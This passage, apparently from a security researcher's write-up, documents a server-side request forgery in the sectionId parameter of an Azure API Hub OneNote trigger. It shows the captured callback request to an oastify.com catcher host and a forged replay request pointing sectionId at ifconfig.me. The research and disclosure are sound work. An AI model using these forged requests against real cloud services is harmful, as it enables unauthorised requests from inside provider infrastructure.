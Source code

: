 But let’s not stop there.

Let’s look at the full request that hit our server:

```
GET /?sectionId=https%3A%2F%2Fxmnhit9ckj6kbosiyo9yxqc9q0wrki87.oastify.com&filter=createdTime%20gt%202025-05-11T05:48:05.619Z&top=1&orderby=createdTime%20desc HTTP/1.1
x-ms-trigger-callback-url: https://prod-26.westeurope.logic.azure.com/workflows/<...SNIP...>/triggers/When_a_new_page_is_created_in_a_section/paths/invoke?api-version=2016-06-01&sp=%2Ftriggers%2FWhen_a_new_page_is_created_in_a_section%2Frun%2C%2Ftriggers%2FWhen_a_new_page_is_created_in_a_section%2Fread&sv=1.0&sig=<...SNIP...>
X-MS-APIM-Referrer-Prefix: https://default-<...SNIP...>.05.common.europe002.azure-apihub.net/apim/onenote/shared-onenote-<...SNIP...>
x-ms-workflow-id: <...SNIP...>
x-ms-workflow-version: <...SNIP...>
x-ms-workflow-name: <...SNIP...>
x-ms-workflow-system-id: <...SNIP...>
x-ms-workflow-run-id: <...SNIP...>
x-ms-workflow-operation-name: When_a_new_page_is_created_in_a_section
x-ms-execution-location: westeurope
x-ms-gateway-object-id:
MS-Int-AppId: Microsoft API Hubs
x-ms-tracking-id: <...SNIP...>
x-ms-correlation-id: <...SNIP...>
x-ms-client-request-id: <...SNIP...>
x-ms-activity-vector: 00.01.IN.3Z.IN.05.IN.1T
Accept-Encoding: gzip,deflate
Accept-Language: en-US
X-MS-APIM-Referrer: https://default-<guid>.05.common.europe002.azure-apihub.net/apim/onenote/shared-onenote-.../trigger3/sections/Dynamic/pages?notebookKey=<...SNIP...>&sectionId=https:%252f%252fxmnhit9ckj6kbosiyo9yxqc9q0wrki87.oastify.com
User-Agent: azure-logic-apps/1.0 (workflow 7dff70150ca1411298585671e72fb203; version 08584545780017174050) microsoft-flow/1.0
Authorization: Bearer <...SNIP...>
X-MS-APIM-Callback: https://europe-002.consent.azure-apim.net
X-Forwarded-For: 20.238.230.87
Host: xmnhit9ckj6kbosiyo9yxqc9q0wrki87.oastify.com
Connection: Keep-Alive

```

We already know from the captured request that Microsoft API Hub was the one making the call.

I decided to replay this request programmatically simulate the behavior using my own API Hub token and to confirm that the `sectionId` parameter is vulnerable to the SSRF (and because I am curious).

To simulate the behavior, I forged a request back to API Hub using a fake `sectionId` pointing to `https://ifconfig.me` (just as a controlled example). Here's what it looked like:

```
GET /apim/onenote/shared-onenote-<...SNIP...>/trigger3/sections/Dynamic/pages?notebookKey=<...>&sectionId=https://ifconfig.me HTTP/1.1
Host: europe002.azure-apihub.net
Authorization: Bearer <my_own_token>
...
```
